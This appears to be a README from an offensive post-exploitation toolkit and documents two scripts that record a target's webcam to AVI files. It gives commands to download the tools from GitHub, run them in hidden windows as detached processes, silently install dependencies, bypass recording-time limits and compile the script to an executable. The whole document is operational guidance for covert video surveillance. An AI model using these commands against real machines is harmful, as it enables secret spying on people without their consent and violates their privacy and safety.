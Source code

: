 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[WebCam](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/WebCam.py)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py" -OutFile "WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon its installed
[bool](python -V)

#Check if opencv its installed
[bool](pip list|findstr /C:"opencv-python")

[OPTIONAL] #Install opencv and numpy modules
pip install opencv-python
```

<br />

**execute:**
```powershell
#Search for python 'site-packages' directory
gci "$Env:LOCALAPPDATA\Programs" -Recurse -Force|?{$_.PSIsContainer -Match "True" -and $_.Name -iMatch 'site-packages'}

#Edit WebCam.py and change next cmdline to point to your 'python\site-packages' directory
#Remark: remmenber to add double backslashs to your path ( eg. C:\\path\\path\\path\\path )
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python -ArgumentList "WebCam.py"

#Stop capture
Stop-Process -Name "python*" -Force
```

<br />

**Final Notes:**
```powershell
Video recording its stored on WebCam.py current directory under the name: "outpy.avi"
WebCam.py can be compiled to exe using pyinstaller: pyinstaller –onefile "WebCam.py"
```

<br /><br />


## Invoke-WebCamAvi.ps1

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|[Invoke-WebCamAvi](https://github.com/r00t-3xp10it/redpill/blob/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1)|Capture video (AVI) using default target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[write-a-video-using-opencv-python](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/Invoke-webcamAvi.ps1" -OutFile "Invoke-webcamAvi.ps1"
```

<br />

**Prerequesites tests:**
```powershell
#Mandatory requirement
[bool](python -V)
```

<br />

**run cmdlet:**
```powershell
#Get module help
Get-Help .\Invoke-webcamAvi.ps1 -full

#Record webcam live stream for 20 seconds time
.\Invoke-webcamAvi.ps1 -RecTime '20'

#Record webcam live and use %TMP% as working directory
.\Invoke-webcamAvi.ps1 -WorkingDir "$Env:TMP"

#Record webcam live and rename avi file name
.\Invoke-webcamAvi.ps1 -FileName "capture.avi"

#silent install of python3 dependencies if missing.
.\Invoke-WebCamAvi.ps1 -forceinstall

  -- Final Notes --
  
#Invoke -reclimmit 'int' to bypass max_rec_time restrictions
.\Invoke-WebCamAvi.ps1 -rectime '240' -reclimmit '240'

#Execute cmdlet in a hidden terminal window for 60 seconds ( child detach from parent process - orphan )
PS C:\> Start-Process -WindowStyle hidden powershell -argumentlist "-file Invoke-WebCamAvi.ps1 -rectime '60'"
```

<br />

**Final Notes:**
```powershell
Remark: Python 3 its mandatory requirement to run cmdlet ..
Invoke-webcamAvi cmdlet automates the execution of 'WebCam.py' and python packages dependencies.
Video recording (silent) its stored on cmdlet working directory under the name of: "meterpeter.avi"
```
